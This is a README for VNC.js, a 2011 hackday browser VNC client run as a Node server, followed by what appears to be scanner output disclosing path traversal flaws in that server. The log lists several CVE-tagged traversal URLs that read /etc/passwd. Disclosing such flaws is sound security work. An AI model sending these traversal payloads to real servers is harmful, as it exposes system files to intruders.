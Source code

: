 # VNC.js
VNC.js is a LinkedIn intern hackday 2011 2011 project, read the blog post about VNC.js: http://engineering.linkedin.com/javascript/vncjs-how-build-javascript-vnc-client-24-hour-hackday

You need a VNC server to make this work, like: x11vnc on Ubuntu.

# Disclaimer
This project was developed over 24 sleep deprived hours, the code is messy and undocumented.

# How Use
node server.js
open http://127.0.0.1:1024/

## but ...

```
[2021-10-12 12:19:30] [CVE-2010-4231] [http] [high] http://127.0.0.1:1024/../../../../../../../../../../../../../etc/passwd
[2021-10-12 12:19:31] [CVE-2017-16877] [http] [high] http://127.0.0.1:1024/_next/../../../../../../../../../../etc/passwd
[2021-10-12 12:19:33] [CVE-2018-3714] [http] [medium] http://127.0.0.1:1024/node_modules/../../../../../etc/passwd
[2021-10-12 12:19:34] [CVE-2017-14849] [http] [high] http://127.0.0.1:1024/static/../../../a/../../../../etc/passwd
[2021-10-12 12:19:36] [CVE-2015-3337] [http] [high] http://127.0.0.1:1024/_plugin/head/../../../../../../../../../../../../../../../../etc/passwd

```